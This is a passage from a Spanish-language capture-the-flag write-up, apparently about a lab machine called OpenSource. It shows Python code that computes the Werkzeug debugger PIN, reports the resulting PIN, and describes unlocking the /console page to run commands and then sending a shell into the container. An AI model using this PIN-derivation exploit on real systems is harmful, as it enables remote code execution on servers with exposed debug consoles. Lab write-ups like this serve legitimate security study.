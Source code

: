 ```python
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

El **pin** generado ha sido **109-552-733**. Si lo probamos contra la web **http://10.10.11.164/console** ganaremos acceso a la consola de comandos de python y ya podremos ejecutar comandos:

<img src="/photos/2022-10-08-OpenSource-WriteUp/consoleWrkzeug.png" alt="drawing"  />  

A partir de aquí, nos podremos enviar una shell y ganar acceso al contenedor.